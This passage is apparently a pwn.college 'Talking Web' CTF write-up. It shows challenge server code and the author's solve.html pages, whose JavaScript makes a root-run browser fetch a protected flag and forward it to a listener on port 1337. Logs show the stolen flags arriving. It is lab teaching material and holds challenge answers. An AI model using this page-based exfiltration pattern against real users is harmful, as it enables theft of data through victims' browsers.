    if flask.request.args.get("challenge_key", None) != "trmqxenl":
        flask.abort(403, "Incorrect value for get parameter challenge_key!")

    if flask.request.args.get("private_key", None) != "hqclqagt":
        flask.abort(403, "Incorrect value for get parameter private_key!")

    if flask.request.args.get("flag", None) != "neropxuy":
        flask.abort(403, "Incorrect value for get parameter flag!")

    response = flask.Response(open("/flag").read().strip(), content_type="text/plain")
    return response


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

`/challenge/client`:
```python
#!/opt/pwn.college/python

import shutil
import psutil
import urllib
import atexit
import time
import sys
import os

from selenium import webdriver
from selenium.webdriver.firefox.options import Options as FirefoxOptions
from selenium.webdriver.firefox.service import Service as FirefoxService
from selenium.webdriver.common.by import By
from selenium.webdriver.support.wait import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from selenium.common.exceptions import TimeoutException, WebDriverException

os.setuid(os.geteuid())
os.environ.clear()
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

options = FirefoxOptions()
options.add_argument("--headless")
service = FirefoxService(log_path="/dev/null", executable_path=shutil.which("geckodriver"))
browser = webdriver.Firefox(service=service, options=options)
atexit.register(browser.quit)

open_ports = {s.laddr.port for s in psutil.net_connections(kind="inet") if s.status == "LISTEN"}
if 80 not in open_ports:
    print("Service doesn't seem to be running?")
    sys.exit(1)

challenge_url = "http://challenge.localhost:80/~hacker/solve.html"

print(f"Visiting {challenge_url}")
browser.get(challenge_url)


time.sleep(2)
print(" ")
```

Here is `public_html/solve.html`:

```html
<html>
  <head><title>Talking Web</title></head>
<body>
  <h1>Great job!</h1>
  <p>You are really {"GREAT!"}</p>
  <script>
  fetch("http://challenge.localhost/check?challenge_key=trmqxenl&private_key=hqclqagt&flag=neropxuy").then(r => r.text()).then(content => { window.location = "http://localhost:1337/?flag="+content; })
  </script>
</body>
</html>
```

```
hacker@talking-web~http-get-parameters-javascript:~$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [09/Oct/2025 22:34:44] "GET /?flag=pwn.college{AIvtgGCGZ81ioC4Uf9d4h9IQ2FP.0FOxATNxwyMyITOyEzW} HTTP/1.1" 200 -
127.0.0.1 - - [09/Oct/2025 22:34:44] code 404, message File not found
127.0.0.1 - - [09/Oct/2025 22:34:44] "GET /favicon.ico HTTP/1.1" 404 -
```

## HTTP Forms (javascript)

`/challenge/server`:
```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/~hacker/<path:path>", methods=["GET"])
def public_html(path="index.html"):
    try:
        ruid, euid, suid = os.getresuid()
        os.seteuid(ruid)
        return flask.send_from_directory("/home/hacker/public_html", path)
    except PermissionError:
        flask.abort(403)
    finally:
        os.seteuid(euid)


@app.route("/access", methods=["POST"])
def challenge():
    if peer_process_of(flask.request.input_stream.fileno()).username() != "root":
        flask.abort(
            400,
            f"""
              This page must be accessed using a browser run by the root user.
              Usually, this means you would run the scripted browser in /challenge/client or /challenge/victim,
              and it'll access this page for you.
              Of course, this sort of functionality doesn't exist on the actual web, as google.com can't access
              your user ID on your local machine, but we use this hack here for teaching purposes.
        """,
        )

    if flask.request.form.get("solution", None) != "epyhrtar":
        flask.abort(403, "Incorrect value for post parameter solution!")

    if flask.request.form.get("secure_key", None) != "gtqxyznv":
        flask.abort(403, "Incorrect value for post parameter secure_key!")

    if flask.request.form.get("keycode", None) != "aobgxgtt":
        flask.abort(403, "Incorrect value for post parameter keycode!")

    response = flask.Response(open("/flag").read().strip(), content_type="text/plain")
    return response


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

Here is our `public_html/solve.html`:
```html
<html>
  <head><title>Talking Web</title></head>
<body>
  <h1>Great job!</h1>
  <p>You are really {"GREAT!"}</p>
  <script>
  const data = "solution=epyhrtar&secure_key=gtqxyznv&keycode=aobgxgtt"
  const options = {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: data
  };
  fetch("http://challenge.localhost/access", options).then(r => r.text()).then(content => { window.location = "http://localhost:1337/?flag="+content; })
  </script>
</body>
</html>
```

```
hacker@talking-web~http-forms-javascript:~$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [09/Oct/2025 22:43:43] "GET /?flag=pwn.college{Y-dFhOefh5Cdiy0Hpc4v7RL0HnL.0VOxATNxwyMyITOyEzW} HTTP/1.1" 200 -
127.0.0.1 - - [09/Oct/2025 22:43:43] code 404, message File not found
127.0.0.1 - - [09/Oct/2025 22:43:43] "GET /favicon.ico HTTP/1.1" 404 -
```
